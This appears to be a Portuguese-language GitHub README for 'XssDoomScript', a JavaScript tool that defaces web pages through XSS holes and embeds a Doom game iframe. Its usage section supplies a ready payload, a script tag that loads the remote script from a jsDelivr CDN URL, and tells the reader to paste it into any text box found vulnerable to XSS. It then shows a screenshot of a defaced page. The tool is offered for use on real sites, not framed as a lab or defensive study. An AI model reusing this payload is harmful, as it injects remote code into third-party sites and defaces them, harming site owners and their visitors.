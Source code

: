 # XssDoomScript 
## Um código javascript simples, usado para alterar aspectos da página (Deface) por meio de vulnerabilidade XSS</h2>

<p>O código consiste em um javasctipt para alterar a página (Deface) e injetar um iframe jogável do jogo Doom.</br> 
Alguns atributos como cor de fundo, resolução do iframe e texto a serem exibido podem ser alterados no cabeçalho de constantes do script</p>

## Como testar o script ? 
<p>Caso já tenha achado alguma caixa de texto que possui a vulnerabilidade XSS explorável, apenas cole o seguinte código :  '<script src='https://cdn.jsdelivr.net/gh/Daniel-kenobi/XssDoomScript@main/script.js'></script>' . Após isso o script já irá alterar os aspectos da página</p>

##### Exemplo de como o deface fica após explorado
<p align="center">
    <img src="https://i.ibb.co/QCt9SNz/Deface-Example.png" alt="Deface-Example" width="400" height="400">
</p>